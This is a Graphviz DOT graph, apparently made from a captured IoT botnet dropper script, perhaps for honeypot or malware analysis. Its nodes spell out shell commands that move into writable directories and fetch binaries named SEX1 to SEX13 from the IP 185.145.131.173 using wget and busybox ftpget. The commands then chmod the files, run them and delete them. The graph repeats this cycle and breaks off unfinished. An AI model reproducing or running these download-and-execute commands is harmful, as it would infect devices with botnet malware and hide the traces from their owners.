 digraph {
834 [label="cd /tmp "];
834 -> 834
836 [label="cd /var/run "];
836 -> 838 [label="||,"];
838 [label="cd /mnt "];
838 -> 840 [label="||,"];
840 [label="cd /root "];
840 -> 842 [label="||,"];
842 [label="cd / "];
842 -> 10 [label="||,"];
10 [label="wget http://185.145.131.173/SEX1 "];
10 -> 12 [label=";,"];
12 [label="chmod +x SEX1 "];
12 -> 48 [label=";,"];
48 [label="./SEX1 "];
48 -> 32 [label=";,"];
32 [label="rm -rf SEX1 "];
32 -> 834 [label=";,"];
834 [label="cd /tmp "];
834 -> 834
836 [label="cd /var/run "];
836 -> 838 [label="||,"];
838 [label="cd /mnt "];
838 -> 840 [label="||,"];
840 [label="cd /root "];
840 -> 842 [label="||,"];
842 [label="cd / "];
842 -> 28 [label="||,"];
28 [label="ftpget -v -u anonymous -p anonymous -P 21 185.145.131.173 SEX1 SEX1 "];
28 -> 30 [label=";,"];
30 [label="chmod +x SEX1 ./SEX1 "];
30 -> 32 [label=";,"];
32 [label="rm -rf SEX1 "];
32 -> 868 [label=";,"];
868 [label="/bin/busybox cd /tmp "];
868 -> 868
870 [label="/bin/busybox cd /var/run "];
870 -> 872 [label="||,"];
872 [label="/bin/busybox cd /mnt "];
872 -> 874 [label="||,"];
874 [label="/bin/busybox cd /root "];
874 -> 876 [label="||,"];
876 [label="/bin/busybox cd / "];
876 -> 44 [label="||,"];
44 [label="/bin/busybox wget http://185.145.131.173/SEX1 "];
44 -> 46 [label=";,"];
46 [label="/bin/busybox chmod +x SEX1 "];
46 -> 48 [label=";,"];
48 [label="./SEX1 "];
48 -> 66 [label=";,"];
66 [label="/bin/busybox rm -rf SEX1 "];
66 -> 868 [label=";,"];
868 [label="/bin/busybox cd /tmp "];
868 -> 868
870 [label="/bin/busybox cd /var/run "];
870 -> 872 [label="||,"];
872 [label="/bin/busybox cd /mnt "];
872 -> 874 [label="||,"];
874 [label="/bin/busybox cd /root "];
874 -> 876 [label="||,"];
876 [label="/bin/busybox cd / "];
876 -> 62 [label="||,"];
62 [label="/bin/busybox ftpget -v -u anonymous -p anonymous -P 21 185.145.131.173 SEX1 SEX1 "];
62 -> 64 [label=";,"];
64 [label="/bin/busybox chmod +x SEX1 ./SEX1 "];
64 -> 66 [label=";,"];
66 [label="/bin/busybox rm -rf SEX1 "];
66 -> 834 [label=";,"];
834 [label="cd /tmp "];
834 -> 834
836 [label="cd /var/run "];
836 -> 838 [label="||,"];
838 [label="cd /mnt "];
838 -> 840 [label="||,"];
840 [label="cd /root "];
840 -> 842 [label="||,"];
842 [label="cd / "];
842 -> 78 [label="||,"];
78 [label="wget http://185.145.131.173/SEX2 "];
78 -> 80 [label=";,"];
80 [label="chmod +x SEX2 "];
80 -> 116 [label=";,"];
116 [label="./SEX2 "];
116 -> 100 [label=";,"];
100 [label="rm -rf SEX2 "];
100 -> 834 [label=";,"];
834 [label="cd /tmp "];
834 -> 834
836 [label="cd /var/run "];
836 -> 838 [label="||,"];
838 [label="cd /mnt "];
838 -> 840 [label="||,"];
840 [label="cd /root "];
840 -> 842 [label="||,"];
842 [label="cd / "];
842 -> 96 [label="||,"];
96 [label="ftpget -v -u anonymous -p anonymous -P 21 185.145.131.173 SEX2 SEX2 "];
96 -> 98 [label=";,"];
98 [label="chmod +x SEX2 ./SEX2 "];
98 -> 100 [label=";,"];
100 [label="rm -rf SEX2 "];
100 -> 868 [label=";,"];
868 [label="/bin/busybox cd /tmp "];
868 -> 868
870 [label="/bin/busybox cd /var/run "];
870 -> 872 [label="||,"];
872 [label="/bin/busybox cd /mnt "];
872 -> 874 [label="||,"];
874 [label="/bin/busybox cd /root "];
874 -> 876 [label="||,"];
876 [label="/bin/busybox cd / "];
876 -> 112 [label="||,"];
112 [label="/bin/busybox wget http://185.145.131.173/SEX2 "];
112 -> 114 [label=";,"];
114 [label="/bin/busybox chmod +x SEX2 "];
114 -> 116 [label=";,"];
116 [label="./SEX2 "];
116 -> 134 [label=";,"];
134 [label="/bin/busybox rm -rf SEX2 "];
134 -> 868 [label=";,"];
868 [label="/bin/busybox cd /tmp "];
868 -> 868
870 [label="/bin/busybox cd /var/run "];
870 -> 872 [label="||,"];
872 [label="/bin/busybox cd /mnt "];
872 -> 874 [label="||,"];
874 [label="/bin/busybox cd /root "];
874 -> 876 [label="||,"];
876 [label="/bin/busybox cd / "];
876 -> 130 [label="||,"];
130 [label="/bin/busybox ftpget -v -u anonymous -p anonymous -P 21 185.145.131.173 SEX2 SEX2 "];
130 -> 132 [label=";,"];
132 [label="/bin/busybox chmod +x SEX2 ./SEX2 "];
132 -> 134 [label=";,"];
134 [label="/bin/busybox rm -rf SEX2 "];
134 -> 834 [label=";,"];
834 [label="cd /tmp "];
834 -> 834
836 [label="cd /var/run "];
836 -> 838 [label="||,"];
838 [label="cd /mnt "];
838 -> 840 [label="||,"];
840 [label="cd /root "];
840 -> 842 [label="||,"];
842 [label="cd / "];
842 -> 146 [label="||,"];
146 [label="wget http://185.145.131.173/SEX4 "];
146 -> 148 [label=";,"];
148 [label="chmod +x SEX4 "];
148 -> 184 [label=";,"];
184 [label="./SEX4 "];
184 -> 168 [label=";,"];
168 [label="rm -rf SEX4 "];
168 -> 834 [label=";,"];
834 [label="cd /tmp "];
834 -> 834
836 [label="cd /var/run "];
836 -> 838 [label="||,"];
838 [label="cd /mnt "];
838 -> 840 [label="||,"];
840 [label="cd /root "];
840 -> 842 [label="||,"];
842 [label="cd / "];
842 -> 164 [label="||,"];
164 [label="ftpget -v -u anonymous -p anonymous -P 21 185.145.131.173 SEX4 SEX4 "];
164 -> 166 [label=";,"];
166 [label="chmod +x SEX4 ./SEX4 "];
166 -> 168 [label=";,"];
168 [label="rm -rf SEX4 "];
168 -> 868 [label=";,"];
868 [label="/bin/busybox cd /tmp "];
868 -> 868
870 [label="/bin/busybox cd /var/run "];
870 -> 872 [label="||,"];
872 [label="/bin/busybox cd /mnt "];
872 -> 874 [label="||,"];
874 [label="/bin/busybox cd /root "];
874 -> 876 [label="||,"];
876 [label="/bin/busybox cd / "];
876 -> 180 [label="||,"];
180 [label="/bin/busybox wget http://185.145.131.173/SEX4 "];
180 -> 182 [label=";,"];
182 [label="/bin/busybox chmod +x SEX4 "];
182 -> 184 [label=";,"];
184 [label="./SEX4 "];
184 -> 202 [label=";,"];
202 [label="/bin/busybox rm -rf SEX4 "];
202 -> 868 [label=";,"];
868 [label="/bin/busybox cd /tmp "];
868 -> 868
870 [label="/bin/busybox cd /var/run "];
870 -> 872 [label="||,"];
872 [label="/bin/busybox cd /mnt "];
872 -> 874 [label="||,"];
874 [label="/bin/busybox cd /root "];
874 -> 876 [label="||,"];
876 [label="/bin/busybox cd / "];
876 -> 198 [label="||,"];
198 [label="/bin/busybox ftpget -v -u anonymous -p anonymous -P 21 185.145.131.173 SEX4 SEX4 "];
198 -> 200 [label=";,"];
200 [label="/bin/busybox chmod +x SEX4 ./SEX4 "];
200 -> 202 [label=";,"];
202 [label="/bin/busybox rm -rf SEX4 "];
202 -> 834 [label=";,"];
834 [label="cd /tmp "];
834 -> 834
836 [label="cd /var/run "];
836 -> 838 [label="||,"];
838 [label="cd /mnt "];
838 -> 840 [label="||,"];
840 [label="cd /root "];
840 -> 842 [label="||,"];
842 [label="cd / "];
842 -> 214 [label="||,"];
214 [label="wget http://185.145.131.173/SEX3 "];
214 -> 216 [label=";,"];
216 [label="chmod +x SEX3 "];
216 -> 252 [label=";,"];
252 [label="./SEX3 "];
252 -> 236 [label=";,"];
236 [label="rm -rf SEX3 "];
236 -> 834 [label=";,"];
834 [label="cd /tmp "];
834 -> 834
836 [label="cd /var/run "];
836 -> 838 [label="||,"];
838 [label="cd /mnt "];
838 -> 840 [label="||,"];
840 [label="cd /root "];
840 -> 842 [label="||,"];
842 [label="cd / "];
842 -> 232 [label="||,"];
232 [label="ftpget -v -u anonymous -p anonymous -P 21 185.145.131.173 SEX3 SEX3 "];
232 -> 234 [label=";,"];
234 [label="chmod +x SEX3 ./SEX3 "];
234 -> 236 [label=";,"];
236 [label="rm -rf SEX3 "];
236 -> 868 [label=";,"];
868 [label="/bin/busybox cd /tmp "];
868 -> 868
870 [label="/bin/busybox cd /var/run "];
870 -> 872 [label="||,"];
872 [label="/bin/busybox cd /mnt "];
872 -> 874 [label="||,"];
874 [label="/bin/busybox cd /root "];
874 -> 876 [label="||,"];
876 [label="/bin/busybox cd / "];
876 -> 248 [label="||,"];
248 [label="/bin/busybox wget http://185.145.131.173/SEX3 "];
248 -> 250 [label=";,"];
250 [label="/bin/busybox chmod +x SEX3 "];
250 -> 252 [label=";,"];
252 [label="./SEX3 "];
252 -> 270 [label=";,"];
270 [label="/bin/busybox rm -rf SEX3 "];
270 -> 868 [label=";,"];
868 [label="/bin/busybox cd /tmp "];
868 -> 868
870 [label="/bin/busybox cd /var/run "];
870 -> 872 [label="||,"];
872 [label="/bin/busybox cd /mnt "];
872 -> 874 [label="||,"];
874 [label="/bin/busybox cd /root "];
874 -> 876 [label="||,"];
876 [label="/bin/busybox cd / "];
876 -> 266 [label="||,"];
266 [label="/bin/busybox ftpget -v -u anonymous -p anonymous -P 21 185.145.131.173 SEX3 SEX3 "];
266 -> 268 [label=";,"];
268 [label="/bin/busybox chmod +x SEX3 ./SEX3 "];
268 -> 270 [label=";,"];
270 [label="/bin/busybox rm -rf SEX3 "];
270 -> 834 [label=";,"];
834 [label="cd /tmp "];
834 -> 834
836 [label="cd /var/run "];
836 -> 838 [label="||,"];
838 [label="cd /mnt "];
838 -> 840 [label="||,"];
840 [label="cd /root "];
840 -> 842 [label="||,"];
842 [label="cd / "];
842 -> 282 [label="||,"];
282 [label="wget http://185.145.131.173/SEX5 "];
282 -> 284 [label=";,"];
284 [label="chmod +x SEX5 "];
284 -> 320 [label=";,"];
320 [label="./SEX5 "];
320 -> 304 [label=";,"];
304 [label="rm -rf SEX5 "];
304 -> 834 [label=";,"];
834 [label="cd /tmp "];
834 -> 834
836 [label="cd /var/run "];
836 -> 838 [label="||,"];
838 [label="cd /mnt "];
838 -> 840 [label="||,"];
840 [label="cd /root "];
840 -> 842 [label="||,"];
842 [label="cd / "];
842 -> 300 [label="||,"];
300 [label="ftpget -v -u anonymous -p anonymous -P 21 185.145.131.173 SEX5 SEX5 "];
300 -> 302 [label=";,"];
302 [label="chmod +x SEX5 ./SEX5 "];
302 -> 304 [label=";,"];
304 [label="rm -rf SEX5 "];
304 -> 868 [label=";,"];
868 [label="/bin/busybox cd /tmp "];
868 -> 868
870 [label="/bin/busybox cd /var/run "];
870 -> 872 [label="||,"];
872 [label="/bin/busybox cd /mnt "];
872 -> 874 [label="||,"];
874 [label="/bin/busybox cd /root "];
874 -> 876 [label="||,"];
876 [label="/bin/busybox cd / "];
876 -> 316 [label="||,"];
316 [label="/bin/busybox wget http://185.145.131.173/SEX5 "];
316 -> 318 [label=";,"];
318 [label="/bin/busybox chmod +x SEX5 "];
318 -> 320 [label=";,"];
320 [label="./SEX5 "];
320 -> 338 [label=";,"];
338 [label="/bin/busybox rm -rf SEX5 "];
338 -> 868 [label=";,"];
868 [label="/bin/busybox cd /tmp "];
868 -> 868
870 [label="/bin/busybox cd /var/run "];
870 -> 872 [label="||,"];
872 [label="/bin/busybox cd /mnt "];
872 -> 874 [label="||,"];
874 [label="/bin/busybox cd /root "];
874 -> 876 [label="||,"];
876 [label="/bin/busybox cd / "];
876 -> 334 [label="||,"];
334 [label="/bin/busybox ftpget -v -u anonymous -p anonymous -P 21 185.145.131.173 SEX5 SEX5 "];
334 -> 336 [label=";,"];
336 [label="/bin/busybox chmod +x SEX5 ./SEX5 "];
336 -> 338 [label=";,"];
338 [label="/bin/busybox rm -rf SEX5 "];
338 -> 834 [label=";,"];
834 [label="cd /tmp "];
834 -> 834
836 [label="cd /var/run "];
836 -> 838 [label="||,"];
838 [label="cd /mnt "];
838 -> 840 [label="||,"];
840 [label="cd /root "];
840 -> 842 [label="||,"];
842 [label="cd / "];
842 -> 350 [label="||,"];
350 [label="wget http://185.145.131.173/SEX6 "];
350 -> 352 [label=";,"];
352 [label="chmod +x SEX6 "];
352 -> 388 [label=";,"];
388 [label="./SEX6 "];
388 -> 372 [label=";,"];
372 [label="rm -rf SEX6 "];
372 -> 834 [label=";,"];
834 [label="cd /tmp "];
834 -> 834
836 [label="cd /var/run "];
836 -> 838 [label="||,"];
838 [label="cd /mnt "];
838 -> 840 [label="||,"];
840 [label="cd /root "];
840 -> 842 [label="||,"];
842 [label="cd / "];
842 -> 368 [label="||,"];
368 [label="ftpget -v -u anonymous -p anonymous -P 21 185.145.131.173 SEX6 SEX6 "];
368 -> 370 [label=";,"];
370 [label="chmod +x SEX6 ./SEX6 "];
370 -> 372 [label=";,"];
372 [label="rm -rf SEX6 "];
372 -> 868 [label=";,"];
868 [label="/bin/busybox cd /tmp "];
868 -> 868
870 [label="/bin/busybox cd /var/run "];
870 -> 872 [label="||,"];
872 [label="/bin/busybox cd /mnt "];
872 -> 874 [label="||,"];
874 [label="/bin/busybox cd /root "];
874 -> 876 [label="||,"];
876 [label="/bin/busybox cd / "];
876 -> 384 [label="||,"];
384 [label="/bin/busybox wget http://185.145.131.173/SEX6 "];
384 -> 386 [label=";,"];
386 [label="/bin/busybox chmod +x SEX6 "];
386 -> 388 [label=";,"];
388 [label="./SEX6 "];
388 -> 406 [label=";,"];
406 [label="/bin/busybox rm -rf SEX6 "];
406 -> 868 [label=";,"];
868 [label="/bin/busybox cd /tmp "];
868 -> 868
870 [label="/bin/busybox cd /var/run "];
870 -> 872 [label="||,"];
872 [label="/bin/busybox cd /mnt "];
872 -> 874 [label="||,"];
874 [label="/bin/busybox cd /root "];
874 -> 876 [label="||,"];
876 [label="/bin/busybox cd / "];
876 -> 402 [label="||,"];
402 [label="/bin/busybox ftpget -v -u anonymous -p anonymous -P 21 185.145.131.173 SEX6 SEX6 "];
402 -> 404 [label=";,"];
404 [label="/bin/busybox chmod +x SEX6 ./SEX6 "];
404 -> 406 [label=";,"];
406 [label="/bin/busybox rm -rf SEX6 "];
406 -> 834 [label=";,"];
834 [label="cd /tmp "];
834 -> 834
836 [label="cd /var/run "];
836 -> 838 [label="||,"];
838 [label="cd /mnt "];
838 -> 840 [label="||,"];
840 [label="cd /root "];
840 -> 842 [label="||,"];
842 [label="cd / "];
842 -> 418 [label="||,"];
418 [label="wget http://185.145.131.173/SEX7 "];
418 -> 420 [label=";,"];
420 [label="chmod +x SEX7 "];
420 -> 456 [label=";,"];
456 [label="./SEX7 "];
456 -> 440 [label=";,"];
440 [label="rm -rf SEX7 "];
440 -> 834 [label=";,"];
834 [label="cd /tmp "];
834 -> 834
836 [label="cd /var/run "];
836 -> 838 [label="||,"];
838 [label="cd /mnt "];
838 -> 840 [label="||,"];
840 [label="cd /root "];
840 -> 842 [label="||,"];
842 [label="cd / "];
842 -> 436 [label="||,"];
436 [label="ftpget -v -u anonymous -p anonymous -P 21 185.145.131.173 SEX7 SEX7 "];
436 -> 438 [label=";,"];
438 [label="chmod +x SEX7 ./SEX7 "];
438 -> 440 [label=";,"];
440 [label="rm -rf SEX7 "];
440 -> 868 [label=";,"];
868 [label="/bin/busybox cd /tmp "];
868 -> 868
870 [label="/bin/busybox cd /var/run "];
870 -> 872 [label="||,"];
872 [label="/bin/busybox cd /mnt "];
872 -> 874 [label="||,"];
874 [label="/bin/busybox cd /root "];
874 -> 876 [label="||,"];
876 [label="/bin/busybox cd / "];
876 -> 452 [label="||,"];
452 [label="/bin/busybox wget http://185.145.131.173/SEX7 "];
452 -> 454 [label=";,"];
454 [label="/bin/busybox chmod +x SEX7 "];
454 -> 456 [label=";,"];
456 [label="./SEX7 "];
456 -> 474 [label=";,"];
474 [label="/bin/busybox rm -rf SEX7 "];
474 -> 868 [label=";,"];
868 [label="/bin/busybox cd /tmp "];
868 -> 868
870 [label="/bin/busybox cd /var/run "];
870 -> 872 [label="||,"];
872 [label="/bin/busybox cd /mnt "];
872 -> 874 [label="||,"];
874 [label="/bin/busybox cd /root "];
874 -> 876 [label="||,"];
876 [label="/bin/busybox cd / "];
876 -> 470 [label="||,"];
470 [label="/bin/busybox ftpget -v -u anonymous -p anonymous -P 21 185.145.131.173 SEX7 SEX7 "];
470 -> 472 [label=";,"];
472 [label="/bin/busybox chmod +x SEX7 ./SEX7 "];
472 -> 474 [label=";,"];
474 [label="/bin/busybox rm -rf SEX7 "];
474 -> 834 [label=";,"];
834 [label="cd /tmp "];
834 -> 834
836 [label="cd /var/run "];
836 -> 838 [label="||,"];
838 [label="cd /mnt "];
838 -> 840 [label="||,"];
840 [label="cd /root "];
840 -> 842 [label="||,"];
842 [label="cd / "];
842 -> 486 [label="||,"];
486 [label="wget http://185.145.131.173/SEX8 "];
486 -> 488 [label=";,"];
488 [label="chmod +x SEX8 "];
488 -> 524 [label=";,"];
524 [label="./SEX8 "];
524 -> 508 [label=";,"];
508 [label="rm -rf SEX8 "];
508 -> 834 [label=";,"];
834 [label="cd /tmp "];
834 -> 834
836 [label="cd /var/run "];
836 -> 838 [label="||,"];
838 [label="cd /mnt "];
838 -> 840 [label="||,"];
840 [label="cd /root "];
840 -> 842 [label="||,"];
842 [label="cd / "];
842 -> 504 [label="||,"];
504 [label="ftpget -v -u anonymous -p anonymous -P 21 185.145.131.173 SEX8 SEX8 "];
504 -> 506 [label=";,"];
506 [label="chmod +x SEX8 ./SEX8 "];
506 -> 508 [label=";,"];
508 [label="rm -rf SEX8 "];
508 -> 868 [label=";,"];
868 [label="/bin/busybox cd /tmp "];
868 -> 868
870 [label="/bin/busybox cd /var/run "];
870 -> 872 [label="||,"];
872 [label="/bin/busybox cd /mnt "];
872 -> 874 [label="||,"];
874 [label="/bin/busybox cd /root "];
874 -> 876 [label="||,"];
876 [label="/bin/busybox cd / "];
876 -> 520 [label="||,"];
520 [label="/bin/busybox wget http://185.145.131.173/SEX8 "];
520 -> 522 [label=";,"];
522 [label="/bin/busybox chmod +x SEX8 "];
522 -> 524 [label=";,"];
524 [label="./SEX8 "];
524 -> 542 [label=";,"];
542 [label="/bin/busybox rm -rf SEX8 "];
542 -> 868 [label=";,"];
868 [label="/bin/busybox cd /tmp "];
868 -> 868
870 [label="/bin/busybox cd /var/run "];
870 -> 872 [label="||,"];
872 [label="/bin/busybox cd /mnt "];
872 -> 874 [label="||,"];
874 [label="/bin/busybox cd /root "];
874 -> 876 [label="||,"];
876 [label="/bin/busybox cd / "];
876 -> 538 [label="||,"];
538 [label="/bin/busybox ftpget -v -u anonymous -p anonymous -P 21 185.145.131.173 SEX8 SEX8 "];
538 -> 540 [label=";,"];
540 [label="/bin/busybox chmod +x SEX8 ./SEX8 "];
540 -> 542 [label=";,"];
542 [label="/bin/busybox rm -rf SEX8 "];
542 -> 834 [label=";,"];
834 [label="cd /tmp "];
834 -> 834
836 [label="cd /var/run "];
836 -> 838 [label="||,"];
838 [label="cd /mnt "];
838 -> 840 [label="||,"];
840 [label="cd /root "];
840 -> 842 [label="||,"];
842 [label="cd / "];
842 -> 554 [label="||,"];
554 [label="wget http://185.145.131.173/SEX9 "];
554 -> 556 [label=";,"];
556 [label="chmod +x SEX9 "];
556 -> 592 [label=";,"];
592 [label="./SEX9 "];
592 -> 576 [label=";,"];
576 [label="rm -rf SEX9 "];
576 -> 834 [label=";,"];
834 [label="cd /tmp "];
834 -> 834
836 [label="cd /var/run "];
836 -> 838 [label="||,"];
838 [label="cd /mnt "];
838 -> 840 [label="||,"];
840 [label="cd /root "];
840 -> 842 [label="||,"];
842 [label="cd / "];
842 -> 572 [label="||,"];
572 [label="ftpget -v -u anonymous -p anonymous -P 21 185.145.131.173 SEX9 SEX9 "];
572 -> 574 [label=";,"];
574 [label="chmod +x SEX9 ./SEX9 "];
574 -> 576 [label=";,"];
576 [label="rm -rf SEX9 "];
576 -> 868 [label=";,"];
868 [label="/bin/busybox cd /tmp "];
868 -> 868
870 [label="/bin/busybox cd /var/run "];
870 -> 872 [label="||,"];
872 [label="/bin/busybox cd /mnt "];
872 -> 874 [label="||,"];
874 [label="/bin/busybox cd /root "];
874 -> 876 [label="||,"];
876 [label="/bin/busybox cd / "];
876 -> 588 [label="||,"];
588 [label="/bin/busybox wget http://185.145.131.173/SEX9 "];
588 -> 590 [label=";,"];
590 [label="/bin/busybox chmod +x SEX9 "];
590 -> 592 [label=";,"];
592 [label="./SEX9 "];
592 -> 610 [label=";,"];
610 [label="/bin/busybox rm -rf SEX9 "];
610 -> 868 [label=";,"];
868 [label="/bin/busybox cd /tmp "];
868 -> 868
870 [label="/bin/busybox cd /var/run "];
870 -> 872 [label="||,"];
872 [label="/bin/busybox cd /mnt "];
872 -> 874 [label="||,"];
874 [label="/bin/busybox cd /root "];
874 -> 876 [label="||,"];
876 [label="/bin/busybox cd / "];
876 -> 606 [label="||,"];
606 [label="/bin/busybox ftpget -v -u anonymous -p anonymous -P 21 185.145.131.173 SEX9 SEX9 "];
606 -> 608 [label=";,"];
608 [label="/bin/busybox chmod +x SEX9 ./SEX9 "];
608 -> 610 [label=";,"];
610 [label="/bin/busybox rm -rf SEX9 "];
610 -> 834 [label=";,"];
834 [label="cd /tmp "];
834 -> 834
836 [label="cd /var/run "];
836 -> 838 [label="||,"];
838 [label="cd /mnt "];
838 -> 840 [label="||,"];
840 [label="cd /root "];
840 -> 842 [label="||,"];
842 [label="cd / "];
842 -> 622 [label="||,"];
622 [label="wget http://185.145.131.173/SEX10 "];
622 -> 624 [label=";,"];
624 [label="chmod +x SEX10 "];
624 -> 660 [label=";,"];
660 [label="./SEX10 "];
660 -> 644 [label=";,"];
644 [label="rm -rf SEX10 "];
644 -> 834 [label=";,"];
834 [label="cd /tmp "];
834 -> 834
836 [label="cd /var/run "];
836 -> 838 [label="||,"];
838 [label="cd /mnt "];
838 -> 840 [label="||,"];
840 [label="cd /root "];
840 -> 842 [label="||,"];
842 [label="cd / "];
842 -> 640 [label="||,"];
640 [label="ftpget -v -u anonymous -p anonymous -P 21 185.145.131.173 SEX10 SEX10 "];
640 -> 642 [label=";,"];
642 [label="chmod +x SEX10 ./SEX10 "];
642 -> 644 [label=";,"];
644 [label="rm -rf SEX10 "];
644 -> 868 [label=";,"];
868 [label="/bin/busybox cd /tmp "];
868 -> 868
870 [label="/bin/busybox cd /var/run "];
870 -> 872 [label="||,"];
872 [label="/bin/busybox cd /mnt "];
872 -> 874 [label="||,"];
874 [label="/bin/busybox cd /root "];
874 -> 876 [label="||,"];
876 [label="/bin/busybox cd / "];
876 -> 656 [label="||,"];
656 [label="/bin/busybox wget http://185.145.131.173/SEX10 "];
656 -> 658 [label=";,"];
658 [label="/bin/busybox chmod +x SEX10 "];
658 -> 660 [label=";,"];
660 [label="./SEX10 "];
660 -> 678 [label=";,"];
678 [label="/bin/busybox rm -rf SEX10 "];
678 -> 868 [label=";,"];
868 [label="/bin/busybox cd /tmp "];
868 -> 868
870 [label="/bin/busybox cd /var/run "];
870 -> 872 [label="||,"];
872 [label="/bin/busybox cd /mnt "];
872 -> 874 [label="||,"];
874 [label="/bin/busybox cd /root "];
874 -> 876 [label="||,"];
876 [label="/bin/busybox cd / "];
876 -> 674 [label="||,"];
674 [label="/bin/busybox ftpget -v -u anonymous -p anonymous -P 21 185.145.131.173 SEX10 SEX10 "];
674 -> 676 [label=";,"];
676 [label="/bin/busybox chmod +x SEX10 ./SEX10 "];
676 -> 678 [label=";,"];
678 [label="/bin/busybox rm -rf SEX10 "];
678 -> 834 [label=";,"];
834 [label="cd /tmp "];
834 -> 834
836 [label="cd /var/run "];
836 -> 838 [label="||,"];
838 [label="cd /mnt "];
838 -> 840 [label="||,"];
840 [label="cd /root "];
840 -> 842 [label="||,"];
842 [label="cd / "];
842 -> 690 [label="||,"];
690 [label="wget http://185.145.131.173/SEX11 "];
690 -> 692 [label=";,"];
692 [label="chmod +x SEX11 "];
692 -> 728 [label=";,"];
728 [label="./SEX11 "];
728 -> 712 [label=";,"];
712 [label="rm -rf SEX11 "];
712 -> 834 [label=";,"];
834 [label="cd /tmp "];
834 -> 834
836 [label="cd /var/run "];
836 -> 838 [label="||,"];
838 [label="cd /mnt "];
838 -> 840 [label="||,"];
840 [label="cd /root "];
840 -> 842 [label="||,"];
842 [label="cd / "];
842 -> 708 [label="||,"];
708 [label="ftpget -v -u anonymous -p anonymous -P 21 185.145.131.173 SEX11 SEX11 "];
708 -> 710 [label=";,"];
710 [label="chmod +x SEX11 ./SEX11 "];
710 -> 712 [label=";,"];
712 [label="rm -rf SEX11 "];
712 -> 868 [label=";,"];
868 [label="/bin/busybox cd /tmp "];
868 -> 868
870 [label="/bin/busybox cd /var/run "];
870 -> 872 [label="||,"];
872 [label="/bin/busybox cd /mnt "];
872 -> 874 [label="||,"];
874 [label="/bin/busybox cd /root "];
874 -> 876 [label="||,"];
876 [label="/bin/busybox cd / "];
876 -> 724 [label="||,"];
724 [label="/bin/busybox wget http://185.145.131.173/SEX11 "];
724 -> 726 [label=";,"];
726 [label="/bin/busybox chmod +x SEX11 "];
726 -> 728 [label=";,"];
728 [label="./SEX11 "];
728 -> 746 [label=";,"];
746 [label="/bin/busybox rm -rf SEX11 "];
746 -> 868 [label=";,"];
868 [label="/bin/busybox cd /tmp "];
868 -> 868
870 [label="/bin/busybox cd /var/run "];
870 -> 872 [label="||,"];
872 [label="/bin/busybox cd /mnt "];
872 -> 874 [label="||,"];
874 [label="/bin/busybox cd /root "];
874 -> 876 [label="||,"];
876 [label="/bin/busybox cd / "];
876 -> 742 [label="||,"];
742 [label="/bin/busybox ftpget -v -u anonymous -p anonymous -P 21 185.145.131.173 SEX11 SEX11 "];
742 -> 744 [label=";,"];
744 [label="/bin/busybox chmod +x SEX11 ./SEX11 "];
744 -> 746 [label=";,"];
746 [label="/bin/busybox rm -rf SEX11 "];
746 -> 834 [label=";,"];
834 [label="cd /tmp "];
834 -> 834
836 [label="cd /var/run "];
836 -> 838 [label="||,"];
838 [label="cd /mnt "];
838 -> 840 [label="||,"];
840 [label="cd /root "];
840 -> 842 [label="||,"];
842 [label="cd / "];
842 -> 758 [label="||,"];
758 [label="wget http://185.145.131.173/SEX12 "];
758 -> 760 [label=";,"];
760 [label="chmod +x SEX12 "];
760 -> 796 [label=";,"];
796 [label="./SEX12 "];
796 -> 780 [label=";,"];
780 [label="rm -rf SEX12 "];
780 -> 834 [label=";,"];
834 [label="cd /tmp "];
834 -> 834
836 [label="cd /var/run "];
836 -> 838 [label="||,"];
838 [label="cd /mnt "];
838 -> 840 [label="||,"];
840 [label="cd /root "];
840 -> 842 [label="||,"];
842 [label="cd / "];
842 -> 776 [label="||,"];
776 [label="ftpget -v -u anonymous -p anonymous -P 21 185.145.131.173 SEX12 SEX12 "];
776 -> 778 [label=";,"];
778 [label="chmod +x SEX12 ./SEX12 "];
778 -> 780 [label=";,"];
780 [label="rm -rf SEX12 "];
780 -> 868 [label=";,"];
868 [label="/bin/busybox cd /tmp "];
868 -> 868
870 [label="/bin/busybox cd /var/run "];
870 -> 872 [label="||,"];
872 [label="/bin/busybox cd /mnt "];
872 -> 874 [label="||,"];
874 [label="/bin/busybox cd /root "];
874 -> 876 [label="||,"];
876 [label="/bin/busybox cd / "];
876 -> 792 [label="||,"];
792 [label="/bin/busybox wget http://185.145.131.173/SEX12 "];
792 -> 794 [label=";,"];
794 [label="/bin/busybox chmod +x SEX12 "];
794 -> 796 [label=";,"];
796 [label="./SEX12 "];
796 -> 814 [label=";,"];
814 [label="/bin/busybox rm -rf SEX12 "];
814 -> 868 [label=";,"];
868 [label="/bin/busybox cd /tmp "];
868 -> 868
870 [label="/bin/busybox cd /var/run "];
870 -> 872 [label="||,"];
872 [label="/bin/busybox cd /mnt "];
872 -> 874 [label="||,"];
874 [label="/bin/busybox cd /root "];
874 -> 876 [label="||,"];
876 [label="/bin/busybox cd / "];
876 -> 810 [label="||,"];
810 [label="/bin/busybox ftpget -v -u anonymous -p anonymous -P 21 185.145.131.173 SEX12 SEX12 "];
810 -> 812 [label=";,"];
812 [label="/bin/busybox chmod +x SEX12 ./SEX12 "];
812 -> 814 [label=";,"];
814 [label="/bin/busybox rm -rf SEX12 "];
814 -> 834 [label=";,"];
834 [label="cd /tmp "];
834 -> 834
836 [label="cd /var/run "];
836 -> 838 [label="||,"];
838 [label="cd /mnt "];
838 -> 840 [label="||,"];
840 [label="cd /root "];
840 -> 842 [label="||,"];
842 [label="cd / "];
842 -> 826 [label="||,"];
826 [label="wget http://185.145.131.173/SEX13 "];
826 -> 828 [label=";,"];
828 [label="chmod +x SEX13 "];
828 -> 864 [label=";,"];
864 [label="./SEX13 "];
864 -> 848 [label=";,"];
848 [label="rm -rf SEX13 "];
848 -> 834 [label=";,"];
834 [label="cd /tmp "];
834 -> 834
836 [label="cd /var/run "];
836 -> 838 [label="||,"];
838 [label="cd /mnt "];
838 -> 840 [label="||,"];
840 [label="cd /root "];
840 -> 842 [label="||,"];
842 [label="cd / "];
842 -> 844 [label="||,"];
844 [label="ftpget -v -u anonymous -p anonymous -P 21 185.145.131.173 SEX13 SEX13 "];
844 -> 846 [label=";,"];
846 [label="chmod +x SEX13 ./SEX13 "];
846 -> 848 [label=";,"];
